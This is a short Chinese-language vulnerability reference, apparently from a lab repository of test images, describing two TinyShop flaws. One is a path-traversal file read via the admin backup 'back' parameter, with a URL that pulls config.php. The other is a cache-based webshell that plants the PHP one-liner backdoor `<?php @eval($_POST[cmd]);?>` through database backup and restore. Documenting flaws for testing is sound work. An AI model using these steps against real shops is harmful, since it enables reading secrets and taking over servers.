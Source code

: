 ## TinyShop 2.4 任意文件读取漏洞

测试镜像

* src/tinyshop/2.4

影响版本

* TinyShop 2.x

参考链接

* [TinyShop缓存文件获取WebShell](http://www.freebuf.com/vuls/161409.html)

Poc

进入后台->系统设置->数据库管理->数据库备份

备份任意数据库后访问链接

`http://localhost/tinyshop/index.php?con=admin&act=down&back=../../protected/config/config.php`

即可通过back参数下载任意文件



## TinyShop 2.x/3.x 缓存getshell

测试镜像

* src/tinyshop/3.0

影响版本

* TinyShop 2.x/3.x

参考链接

* [TinyShop缓存文件获取WebShell](http://www.freebuf.com/vuls/161409.html)

Poc

1.进入后台->内容管理->全部帮助，选择任意一条记录，编辑该记录，在其内容中添加一句话后门代码`<?php @eval($_POST[cmd]);?>`并保存

2.备份数据库中的帮助表，在“系统设置”-“数据库备份” 数据库表中选择包含help的表，在本例中为tiny_help的表，选择后在数据库备份中进行备份。

3.下载备份的数据库表sql文件，将其中的一句话代码被html转义的部分修改回原样

4.在“系统设置”-“数据库还原”-“导入”，选择已经修改过的sql文件，选择“上传”，文件上传后会自动还原数据库。     

5.清理缓存，单击“系统设置”-“安全管理”-“清除缓存”，选择清除所有缓存。

6.访问页面，在浏览器中随机访问其帮助文件中的列表来生成缓存，例如“用户注册协议”的地址：

`http://192.168.127.130/tinyshop_2.x/index.php?con=index&act=help&id=14`

7.访问对应缓存文件获取shell

`http://192.168.127.130/tinyshop_2.x/cache/368/501/4461.php`